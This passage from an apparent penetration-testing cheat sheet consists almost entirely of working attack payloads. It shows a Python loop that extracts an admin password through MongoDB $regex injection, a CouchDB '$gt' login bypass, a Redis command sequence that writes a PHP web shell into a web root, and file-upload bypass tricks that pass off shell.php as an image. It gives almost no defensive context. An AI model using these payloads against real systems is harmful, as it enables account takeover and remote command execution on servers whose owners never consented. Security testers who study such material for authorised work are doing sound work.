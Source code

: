 ```javascript
        payload = {"username": "admin", "password": {"$regex": f"^{password}{c}.*"}}
        r = requests.post(url, json=payload)
        if "success" in r.text:
            password += c
            print(f"Password: {password}")
            break
```

### CouchDB Injection

```javascript
// Authentication bypass
username=admin&password={"$gt":""}

// Query manipulation
?startkey="admin"&endkey="admin\ufff0"
```

### Redis Injection

```bash
# Command injection through Redis
auth password
config set dir /var/www/html
config set dbfilename shell.php
set test "<?php system($_GET['cmd']); ?>"
save
```

---

## File Upload Attacks

### Advanced Bypass Techniques

#### Double Extension

```
shell.php.jpg
shell.php.png
shell.jsp.jpg
shell.php;.jpg
shell.php%00.jpg
```

#### MIME Type Manipulation

```python
import requests

files = {
    'upload': ('shell.php', open('shell.php', 'rb'), 'image/jpeg')
}
headers = {'Content-Type': 'multipart/form-data'}
requests.post('http://target/upload', files=files)
```
